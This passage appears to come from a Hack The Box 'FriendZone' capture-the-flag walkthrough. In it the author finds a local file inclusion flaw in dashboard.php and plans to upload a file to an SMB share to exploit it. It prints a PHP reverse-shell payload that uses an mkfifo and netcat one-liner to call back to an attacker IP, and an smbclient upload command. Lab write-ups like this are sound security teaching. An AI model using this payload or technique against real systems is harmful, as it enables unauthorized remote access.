 ![](/images/hackthebox/friendzone/11.png)
<br>
<br>
![](/images/hackthebox/friendzone/12.png)
<br> Great. `/dashboard.php` :
![](/images/hackthebox/friendzone/13.png)
<hr>
## LFI in dashboard.php, User Flag
<br> As you can see it's complaining about missing parameters, by looking at the example : `image_id=a.jpg&pagename=timestamp` my first guess was that `dashboard.php` includes the `php` file provided in the `pagename` parameter. So if we give it `test` it will append `.php` to `test` then include that file. We can upload files to the `smb` share `Development` and we also know the full path : `/etc/Development`, so if it's really vulnerable to `LFI` we can get a reverse shell easily. I wrote a small `php` script to get a reverse shell :
```
<?php
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1337 >/tmp/f');
?>
```
<br> Then I uploaded it to `Development` :
```
root@kali:~/Desktop/HTB/boxes/friendzone# smbclient //friendzone.htb/development -U ""
```